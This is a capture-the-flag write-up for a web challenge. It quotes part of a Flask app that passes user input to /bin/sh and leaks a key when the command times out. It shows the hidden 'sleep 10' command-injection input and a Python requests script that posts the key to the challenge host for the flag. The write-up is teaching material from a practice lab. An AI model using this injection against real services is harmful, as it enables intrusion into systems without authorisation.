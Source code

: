 ```python
                    return render_template('flag.html', txt=f'Timeout! Your key: {KEY}')
                except subprocess.CalledProcessError:
                    return render_template('flag.html', txt="Error!")
            return render_template('flag.html')
        else:
            return redirect('/')
    else: 
        return render_template('flag.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=True)
```

In this challenge, we see that there is a `cmd_input` variable without an input form, so we need to use `Burp Suite` to exploit it.

![pic1](https://hackmd.io/_uploads/ryUVU4b81l.png)

However, at this point, it became quite challenging to further exploit the command injection vulnerability, so I focused on the part of the code related to the `TimeoutExpired error`

```python
try:
    output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
    return render_template('flag.html', txt=output.decode('utf-8'))
except subprocess.TimeoutExpired:
    return render_template('flag.html', txt=f'Timeout! Your key: {KEY}')
except subprocess.CalledProcessError:
    return render_template('flag.html', txt="Error!")
```

If `cmd_input` is inserted and exceeds the 5-second timeout for execution, it will trigger the `TimeoutExpired` error and print out the key. So, I set `cmd_input = "sleep 10"` to exploit this.

![pic2](https://hackmd.io/_uploads/HJEdwVZLke.png)

Now that we have the `key` for the `FLAG`, we just need to input it into the key field to retrieve the `flag`

![pic3](https://hackmd.io/_uploads/H1nxONZUkg.png)

`script`

```python
import requests
import hashlib
import string

url = "http://host1.dreamhack.games:13548/"

# input_data = {
#     "key": hashlib.md5(b"a").hexdigest(),
#     "cmd_input": "sleep 10"
# }
#key = 409ac0d96943d3da52f176ae9ff2b974

input_data = {
    "key": "409ac0d96943d3da52f176ae9ff2b974",
    "cmd_input": ""
}

req = requests.post(url+"flag", data=input_data)
print(req.text)
```


[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".